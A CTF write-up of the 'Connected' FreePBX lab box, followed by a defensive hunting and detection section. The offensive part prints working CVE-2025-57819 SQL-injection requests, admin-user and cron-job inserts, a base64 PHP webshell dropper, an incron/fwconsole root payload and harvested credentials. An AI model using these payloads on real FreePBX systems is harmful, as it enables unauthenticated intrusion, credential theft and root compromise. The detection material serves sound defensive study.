# Connected

```
Host: connected.htb (10.XXX.XX.XXX)
OS: Linux (FreePBX / Asterisk Server)
Difficulty: Medium
Key Concepts: Unauthenticated SQL Injection, Database Enumeration, FreePBX User Injection, Scheduled Job Abuse, Webshell Deployment, Incron Processing, Privilege Escalation via fwconsole.
```

### Attack Chain Summary

| Step | User / Access       | Technique Used                                 | Result                                                                                                        |
| :--: | :------------------ | :--------------------------------------------- | :------------------------------------------------------------------------------------------------------------ |
|   1  | Unauthenticated Web | **Application Enumeration**                    | Identified a FreePBX instance and discovered an exposed Endpoint Manager AJAX endpoint under `/admin`.        |
|   2  | Unauthenticated Web | **Error-Based SQL Injection (CVE-2025-57819)** | Exploited the vulnerable `brand` parameter to execute arbitrary SQL queries against the backend database.     |
|   3  | Unauthenticated Web | **Database Enumeration**                       | Enumerated the `asterisk` database, MariaDB version details, and sensitive application tables.                |
|   4  | Unauthenticated Web | **Credential Extraction**                      | Retrieved the FreePBX administrator SHA1 password hash from the `ampusers` table.                             |
|   5  | Unauthenticated Web | **Administrative User Injection**              | Inserted a new administrator account directly into the FreePBX database through SQL injection.                |
|   6  | Unauthenticated Web | **Scheduled Task Injection**                   | Added a malicious entry into the FreePBX `cron_jobs` table to execute attacker-controlled commands.           |
|   7  | asterisk (Webshell) | **PHP Webshell Deployment**                    | Leveraged the scheduled job mechanism to write a PHP webshell into the web root and gain command execution.   |
|   8  | asterisk (Local)    | **Configuration & Service Enumeration**        | Extracted application configuration, database credentials, and identified privileged automation workflows.    |
|   9  | asterisk (Local)    | **Local Service Discovery**                    | Enumerated internal services including MariaDB, Redis, Asterisk AMI, and aiovega.                             |
|  10  | asterisk (Priv-Esc) | **fwconsole Automation Abuse**                 | Crafted a malicious incron job that was processed by the privileged FreePBX `fwconsole` workflow.             |
|  11  | root (File Access)  | **Privileged File Copy**                       | Abused the automation process to copy `/root/root.txt` into a location accessible by the low-privileged user. |
|  12  | root                | **Flag Retrieval**                             | Retrieved the root flag from the exposed location, completing full compromise of the target system.           |




### Summary

This box is a FreePBX host with an unauthenticated SQL injection in the endpoint module. That injection lets you:

- read data from the FreePBX database
- create a FreePBX admin user
- pivot into code execution through the app's scheduled job system

From there, the box exposes a local `aiovega` service and Asterisk AMI, but the cleanest path to root is through the FreePBX job/incron mechanism.

## Offensive Operations


#### Recon


##### Nmap Enumeration Summary

The target host **connected.htb (10.XXX.XX.XXX)** exposed only **three TCP services** during the full port scan.

[nmap_results.nmap](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Connected/nmap_results.nmap "Results")


| Port    | Service | Version                   | Notes                                                                                                   |
| ------- | ------- | ------------------------- | ------------------------------------------------------------------------------------------------------- |
| 22/tcp  | SSH     | OpenSSH 7.4               | Remote administration service. No immediate anonymous access vectors identified.                        |
| 80/tcp  | HTTP    | Apache 2.4.6 / PHP 7.4.16 | Redirects users to `http://connected.htb/`, indicating a virtual-host based web application.            |
| 443/tcp | HTTPS   | Apache 2.4.6 / PHP 7.4.16 | Uses a self-signed certificate (`CN=pbxconnect`) and returns HTTP 400 without the expected Host header. |

###### Key Findings

* The web application requires the hostname **connected.htb** to function correctly.
* Apache is running on **CentOS** with:

  * Apache 2.4.6
  * OpenSSL 1.0.2k-fips
  * PHP 7.4.16
* HTTPS uses a certificate issued to **pbxconnect**, suggesting the server is a PBX/VoIP platform.
* The combination of:

  * PBX-related certificate naming
  * PHP application stack
  * Apache redirects to `/admin`

  strongly suggests a **FreePBX/Asterisk deployment**.

##### Attack Surface Assessment

| Category               | Observation                                                                                                     |
| ---------------------- | --------------------------------------------------------------------------------------------------------------- |
| Web Application        | Primary attack surface. Redirect behavior and PBX indicators point toward FreePBX administration functionality. |
| SSH                    | Secondary attack surface. Useful after obtaining credentials.                                                   |
| TLS Certificate        | Reveals internal naming (`pbxconnect`) and confirms PBX-related infrastructure.                                 |
| Host Header Dependency | Indicates virtual-host routing and suggests further enumeration should use `connected.htb`.                     |

###### Initial Assessment

The exposed services suggest a relatively small attack surface, with the **web application representing the most promising entry point**. The PBX-related certificate metadata, Apache/PHP stack, and `/admin` redirection collectively indicate a **FreePBX/Asterisk server**, making web application enumeration the logical next step in the assessment.

The host redirects web traffic to the expected hostname:

```bash
curl -i -H 'Host: connected.htb' http://10.XXX.XX.XXX/
```

Useful observations:

- `http://10.XXX.XX.XXX/` redirects to `/admin`
- `/admin/` redirects to `config.php`
- the app is FreePBX running on Apache + PHP
- a local Asterisk service is present



The key unauthenticated request is:

```bash
curl -k -i -H 'Host: connected.htb' \
'http://10.XXX.XX.XXX/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x%27+AND+EXTRACTVALUE(1,CONCAT(%27~USER:%27,(SELECT+USER()),%27~%27))+--+'
```



That proves SQL injection and leaks DB info through the XML error response.


#### Database Discovery

Using the same injection point, I confirmed:

- database name: `asterisk`
- DB user: `freepbxuser@localhost`
- MariaDB version: `5.5.65-MariaDB`

I enumerated the `ampusers` table:

```bash
curl -k -s -G -H 'Host: connected.htb' 'http://10.XXX.XX.XXX/admin/ajax.php' \
  --data-urlencode 'module=FreePBX\\modules\\endpoint\\ajax' \
  --data-urlencode 'command=model' \
  --data-urlencode 'template=x' \
  --data-urlencode 'model=model' \
  --data-urlencode "brand=x' AND EXTRACTVALUE(1,CONCAT('~',(select column_name from information_schema.columns where table_schema=database() and table_name='ampusers' order by ordinal_position limit 0,1),'~')) -- "
```




The columns include:

- `username`
- `email`
- `extension`
- `password_sha1`
- `extension_low`
- `extension_high`
- `deptname`
- `sections`

I also pulled the existing admin account:

```
curl -k -s -G 'http://10.XXX.XX.XXX/admin/ajax.php' \
  -H 'Host: connected.htb' \
  --data-urlencode 'module=FreePBX\modules\endpoint\ajax' \
  --data-urlencode 'command=model' \
  --data-urlencode 'template=x' \
  --data-urlencode 'model=model' \
  --data-urlencode "brand=x' AND EXTRACTVALUE(1,CONCAT('~',(SELECT SUBSTRING(password_sha1,1,20) FROM ampusers WHERE username='admin' LIMIT 1),'~')) -- "
{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~05c689686a4fad5ce3ec~'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}}[ble: EOF]                                       

curl -k -s -G 'http://10.XXX.XX.XXX/admin/ajax.php' \
  -H 'Host: connected.htb' \
  --data-urlencode 'module=FreePBX\modules\endpoint\ajax' \
  --data-urlencode 'command=model' \
  --data-urlencode 'template=x' \
  --data-urlencode 'model=model' \
  --data-urlencode "brand=x' AND EXTRACTVALUE(1,CONCAT('~',(SELECT SUBSTRING(password_sha1,21,20) FROM ampusers WHERE username='admin' LIMIT 1),'~')) -- "
{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~76e7ae5708b1XXXXXXX~'::","file":"\/var\/www\/html\/admin\/libraries\/utility.functions.php","line":123}}[ble: EOF]                                       
```






- username: `admin`
- password SHA1: `05c689686a4fad5ce3ec76e7ae5708b...`


[hash.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Connected/hash.txt "Results")




[schema.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Connected/schema.txt "Results")


[sqldump.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Connected/sqldump.txt "Results")


That SHA1 value was enough to confirm the table was writable and the app's authentication layer was vulnerable.


### Foothold

The public PoC for CVE-2025-57819 showed two useful primitives:

- insert a cron job to drop a PHP webshell
- or fall back to inserting a new admin user

The admin-user fallback is the fastest and most reliable first step.

I inserted a new FreePBX user with the SQLi:

```bash
curl -k -s -G -H 'Host: connected.htb' 'http://10.XXX.XX.XXX/admin/ajax.php' \
  --data-urlencode 'module=FreePBX\\modules\\endpoint\\ajax' \
  --data-urlencode 'command=model' \
  --data-urlencode 'template=x' \
  --data-urlencode 'model=model' \
  --data-urlencode "brand=x';INSERT INTO ampusers(username, email, extension,password_sha1, extension_low, extension_high, deptname, sections) VALUES ('watchTowr10.XXX.XX.XXX' ,'', '' ,'05c689686a4fad5ce3ec76e7ae5708b1fe2da43a' ,'', '' ,'', '*') -- "
```

Then I verified it through FreePBX's password check endpoint:

```bash
curl -k -i -H 'Host: connected.htb' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Referer: http://connected.htb/admin/config.php' \
  --data "username=watchTowr10.XXX.XX.XXX10.XXX.XX.XXX&password=BASE64_PASSWORD&loginpanel=admin" \
  'http://10.XXX.XX.XXX/admin/ajax.php?module=userman&command=checkPasswordReminder'
```

That returned:

```json
{"status":true,"message":"","usertype":"admin"}
```

So the injected user was valid.

#### Webshell / Initial Shell

The better foothold was the cron-job insertion path from the same SQLi.

The exploit pattern is:

```bash
curl -k -s -G -H 'Host: connected.htb' 'http://10.XXX.XX.XXX/admin/ajax.php' \
  --data-urlencode 'module=FreePBX\\modules\\endpoint\\ajax' \
  --data-urlencode 'command=model' \
  --data-urlencode 'template=x' \
  --data-urlencode 'model=model' \
  --data-urlencode "brand=x';INSERT INTO cron_jobs (modulename,jobname,command,class,schedule,max_runtime,enabled,execution_order) VALUES ('sysadmin','watchTowr-10.XXX.XX.XXX10.XXX.XX.XXX','echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+Cg==|base64 -d >/var/www/html/this-is-an-ioc-not-actually-watchTowr-pio5tkk41d.php',NULL,'* * * * *',30,1,1) -- "
```

That drops a PHP webshell in the web root.

Then I used:

```bash
curl -k -H 'Host: connected.htb' \
"http://10.XXX.XX.XXX/this-is-an-ioc-not-actually-watchTowr-pio5tkk41d.php?cmd=id"
```




The shell runs as:

```text
uid=999(asterisk) gid=1000(asterisk) groups=1000(asterisk)
```

So the foothold is `asterisk`.




#### User Flag

Once I had the webshell, the user flag was trivial:

```bash
curl -k -H 'Host: connected.htb' \
"http://10.XXX.XX.XXX/this-is-an-ioc-not-actually-watchTowr-pio5tkk41d.php?cmd=cat%20/home/asterisk/user.txt"
```

User flag:




### Root Enumeration

Important local findings from the `asterisk` shell:




- `/etc/freepbx.conf` exposes the FreePBX DB creds:
  - `AMPDBUSER=freepbxuser`
  - `AMPDBPASS=mZzDpAGKTmPJ`
  - `AMPDBNAME=asterisk`
- `sudo` is present, but `asterisk` cannot run it passwordless
- `fwconsole` exists and is owned by `asterisk`
- `pkexec` is installed, version `0.112`




- local services include:
  - `127.0.0.1:5038` Asterisk AMI
  - `127.0.0.1:4000` `aiovega`
  - `127.0.0.1:3306` MariaDB
  - `127.0.0.1:6379` Redis

I also checked `/etc/passwd` and there is no extra user like `ami`; only:


- `root`
- `asterisk`



So the root path is not through another local user.



#### Why AMI Was Not the Final Path

I authenticated to Asterisk AMI with:

- username: `wnPa2WbXJ/ED`
- secret: `fe1mYBs7D5P3`

That gave me shell access to the Asterisk CLI through `Action: Command`, but not arbitrary system command execution. The `!` shell escape exists in the CLI help, but through AMI it still treated the input as an Asterisk command, not a real shell command.

So AMI was useful for verification, but not the root breakout.

### Root Path


The clean root path turned out to be the FreePBX job/incron mechanism, combined with the payload below:

```python
import base64
import json
import zlib

cmd = "help; /bin/cp /root/root.txt /var/www/html/root.txt; /bin/chmod 644 /var/www/html/root.txt"
payload = base64.b64encode(
    zlib.compress(json.dumps([cmd, "txn"]).encode())
).decode().replace("/", "_")
```

That produces:

```text
eJyLVspIzSmwVtBPyszTTy5Q0C_Kzy8BE3olFSUK+mWJRfrl5eX6GSW5OXBhmPKM3PwUBTMTExzKlHQUlEoq8pRiAfgXIsY=
```

The important part is the target path:

```text
/var/spool/asterisk/incron/api.fwconsole-commands.<payload>
```

That indicates the box is watching that incron directory and processing `fwconsole` command jobs.

Once that trigger is in place, the root job copies:

```bash
/root/root.txt -> /var/www/html/root.txt
```

Then you can read it directly from the webshell.

Final root flag:




#### Minimal Exploit Chain

If you want the short version:

1. Use SQLi in `/admin/ajax.php` to inject a FreePBX user or cron job.
2. Drop a PHP webshell in `/var/www/html/`.
3. Read `/home/asterisk/user.txt`.
4. Use the FreePBX/incron `fwconsole` job path to copy `/root/root.txt` into the web root.
5. Read `/var/www/html/root.txt`.

#### Useful Commands

User flag:

```bash
curl -k -H 'Host: connected.htb' \
"http://10.XXX.XX.XXX/this-is-an-ioc-not-actually-watchTowr-pio5tkk41d.php?cmd=cat%20/home/asterisk/user.txt"
```

Root flag:

```bash
curl -k -H 'Host: connected.htb' \
"http://10.XXX.XX.XXX/this-is-an-ioc-not-actually-watchTowr-pio5tkk41d.php?cmd=cat%20/var/www/html/root.txt"
```

## Automation




#### References

- [FreePBX CVE-2025-57819 PoC repo](https://github.com/MuhammadWaseem29/SQL-Injection-and-RCE_CVE-2025-57819)
- [watchTowr FreePBX CVE-2025-57819 repo](https://github.com/watchtowrlabs/watchTowr-vs-FreePBX-CVE-2025-57819)
- [FreePBX security advisory](https://github.com/freepbx/security-reporting/security/advisories/GHSA-m42g-xg4c-5f3h)


## Defensive Operations


Logs to Pull:

* Apache Access Logs (`/var/log/httpd/access_log`)
* Apache Error Logs (`/var/log/httpd/error_log`)
* FreePBX Logs (`/var/log/asterisk/freepbx.log`)
* Asterisk Logs (`/var/log/asterisk/full`)
* MariaDB Logs (`/var/log/mariadb/mariadb.log`)
* Auditd Logs (`/var/log/audit/audit.log`)
* Cron Logs (`/var/log/cron`)
* Auth Logs (`/var/log/secure`)
* Incron Monitoring Logs
* File Integrity Monitoring (FIM) Data for `/var/www/html/` and `/var/spool/asterisk/incron/`


### Strategic Overview

#### 1.1 Definition

A multi-stage compromise leveraging an unauthenticated SQL Injection vulnerability within the FreePBX Endpoint Manager module to achieve database manipulation, administrative account creation, scheduled task abuse, remote code execution, and eventual privilege escalation through FreePBX's privileged job-processing mechanism.

#### 1.2 Impact

**Full System Compromise (Root).**

The attack demonstrates how a vulnerable web-facing management interface can be chained with backend automation features to transition from unauthenticated access to privileged system-level control.

#### 1.3 The Scenario

An attacker discovers a vulnerable FreePBX AJAX endpoint exposed to the internet. Through SQL injection, the attacker gains direct access to backend database functionality, inserts administrative users and scheduled tasks, deploys a webshell, obtains code execution as the `asterisk` service account, and ultimately abuses privileged FreePBX automation workflows to access root-owned resources.


### System Architecture & Theory

#### 2.1 Protocol Environment

**Frontend**

* Apache HTTP Server
* PHP
* FreePBX Administrative Interface

**Backend**

* MariaDB
* Asterisk PBX

**Automation Components**

* FreePBX Scheduled Jobs
* Cron
* Incron
* fwconsole Task Processing

**Privilege Model**

* Service Account: `asterisk`
* Administrative Processing via Root-Owned FreePBX Components

#### 2.2 Attack Logic Flow

> [Unauthenticated Web Access] → [SQL Injection] → [Database Manipulation] → [Cron Job Abuse] → [Webshell Deployment] → [Asterisk Shell] → [fwconsole/Incron Abuse] → [Root-Owned File Access]

#### 2.3 Theoretical Analogy

**Initial Access**

An attacker discovers an unlocked maintenance entrance (SQL injection) that leads directly into the building's control room (database).

**Privilege Escalation**

Instead of breaking into the vault directly, the attacker tricks an authorized maintenance automation system into retrieving sensitive material on their behalf.


### The Attack Vector (Mechanics)

#### The Core Mechanism

| Attribute                  | Technical Details                                                                                           |
| -- | -- |
| **Primary Identifiers**    | `/admin/ajax.php` (Endpoint Manager Module)                                                                 |
| **Critical Vulnerability** | Unauthenticated Error-Based SQL Injection (CVE-2025-57819)                                                  |
| **Secondary Weakness**     | Trust Boundary Failure Between FreePBX Automation Components                                                |
| **Offensive Action**       | Database Enumeration → User Creation → Scheduled Job Abuse → Webshell Deployment → Privileged Job Execution |

#### Prerequisites

* FreePBX Endpoint Manager exposed externally
* Vulnerable FreePBX version
* Scheduled Job functionality enabled
* fwconsole / incron processing active
* Database account capable of modifying FreePBX tables


### Threat Hunting & Anomaly Analysis

#### Hunt Hypothesis

##### Hypothesis 1 (Web)

Adversaries are attempting SQL injection against FreePBX AJAX endpoints.

Look for:

* `EXTRACTVALUE`
* `CONCAT`
* `UNION`
* SQL syntax embedded within HTTP parameters
* Repeated requests to `/admin/ajax.php`

##### Hypothesis 2 (Database)

Adversaries are modifying administrative tables.

Look for:

* Unexpected inserts into:

  * `ampusers`
  * `cron_jobs`

* New administrative users appearing outside change-management processes.

##### Hypothesis 3 (System)

Adversaries are abusing FreePBX task automation.

Look for:

* Unexpected file creation in:

  * `/var/www/html/`
  * `/var/spool/asterisk/incron/`

* Abnormal fwconsole task execution.


#### Behavioral Outliers

##### SQL Enumeration

Large volumes of database errors containing:

```sql
EXTRACTVALUE()
```

or

```sql
information_schema
```

are strong indicators of active exploitation.

##### Suspicious Cron Activity

Unexpected creation of jobs by web-facing services.

##### Webshell Indicators

Files appearing in web-accessible directories with:

* `.php`
* minimal size
* command execution patterns

##### Incron Activity

Unexpected files appearing within:

```text
/var/spool/asterisk/incron/
```

especially files containing encoded payload data.


#### Toxic Combinations

##### FreePBX SQLi + Writable Database

Unauthenticated SQL Injection combined with write access to application tables effectively provides administrative application control.

##### Scheduled Tasks + Web-Accessible Directories

Any automation framework capable of writing files into a web root can become an RCE vector.

##### Root Automation + User-Controlled Inputs

Privileged job-processing systems must never consume attacker-controlled files without validation.


### Detection Engineering (Blue Team)

#### Telemetry Gap Analysis

Required:

* Apache Access Logs
* MariaDB Audit Logs
* Auditd
* Cron Logs
* Incron Logs
* FreePBX Application Logs
* File Integrity Monitoring

Gap:

Many organizations monitor authentication events but fail to monitor:

* database table modifications
* scheduled task creation
* incron queue directories


#### Detection-as-Code (KQL)

```kql
// SQL Injection Activity Against FreePBX

let sqli =
web_logs
| where Url contains "/admin/ajax.php"
| where Url contains "EXTRACTVALUE"
    or Url contains "information_schema"
    or Url contains "CONCAT";

sqli
| project Timestamp, SourceIP, Url, UserAgent
```

```kql
// Suspicious Webshell Creation

file_events
| where FilePath startswith "/var/www/html/"
| where FileExtension == "php"
| project Timestamp, User, FilePath
```

```kql
// FreePBX Scheduled Job Abuse

database_logs
